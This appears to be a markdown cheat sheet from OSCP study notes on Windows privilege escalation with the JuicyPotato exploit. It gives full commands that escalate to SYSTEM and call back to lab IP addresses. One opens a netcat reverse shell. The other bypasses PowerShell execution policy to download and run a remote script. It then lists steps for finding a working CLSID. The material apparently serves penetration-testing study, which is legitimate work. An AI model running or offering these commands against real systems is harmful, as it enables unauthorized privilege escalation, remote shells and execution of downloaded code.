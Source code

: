 # Juicy Potato Priv Esc

1. **Execute JuicyPotato.exe to see if default CLSID will work**

a. Calling back using nc reverse shell:
`c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *`

b. Calling back using powershell reverse shell:
`.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *`

 2. **Default CLSID Not Working:**

  a. If Default Doesnt run, use the `GetCLSID.ps1` and `join-object.ps1` scripts from `Scripts/OSCP/Win_Enum/Priv_Esc_Method`

   - Load `join-object.ps1` into the powershell session using:
     `import-module join-object.ps1`
    
   - Execute `GetCLSID.ps1` using:
     `.\GetCLSID.ps1`

  b. download the `test_clsid.bat` and configure the following before execution:
   - Change the path to the `CLSID.list` variable
     
   - execute the .bat file
     
   - when the port number changes, it signifies a working CLSID

  c. Test CLSID with JuicyPotato command. 
